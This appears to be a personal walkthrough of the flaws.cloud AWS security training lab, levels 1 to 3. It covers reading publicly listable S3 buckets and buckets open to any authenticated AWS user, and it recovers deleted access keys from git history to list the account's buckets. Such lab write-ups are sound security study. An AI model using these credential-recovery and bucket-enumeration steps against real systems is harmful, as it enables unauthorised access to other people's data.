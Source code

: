 
## LEVEL 1

### Identifying that the website is a bucket & its AZ

![[Pasted image 20211026194815.png]]

![[Pasted image 20211026194835.png]]


### Enumerating items from the bucket

![[Pasted image 20211026194909.png]]

### Why the issue is present

**The permissions of reading from the bucket is set to everyone**

![[Pasted image 20211026214800.png]]

## LEVEL 2

### Enumerating items from bucket using an AWS Account *Any authenticated user*

First we have to configure our profile with our AWS credentials.

```bash
aws configure --profile chan
```


```bash
aws s3 --profile chan ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```

### Why the issue is present

**The permissions of reading from the bucket is set to Any authenticated user on AWS**

![[Pasted image 20211026215339.png]]

## Level 3

### Recovering AWS Keys from git log

![[Pasted image 20211026220107.png]]

**Retrieving all the commits which have deleted files**

```bash
git log --diff-filter=D --summary 
```

![[Pasted image 20211026220305.png]]

```bash
git checkout $commitsha~1 access_keys.txt
```

![[Pasted image 20211026220406.png]]


**Configuring new profile**

```bash
aws configure --profile chan
```

### Enumerating buckets from the new account

```bash
 aws s3 ls --profile flaw
2020-06-25 12:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-26 18:06:07 config-bucket-975426262029
2020-06-27 05:46:15 flaws-logs
2020-06-27 05:46:15 flaws.cloud
2020-06-27 10:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 10:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 10:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 10:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 10:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-27 21:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud

```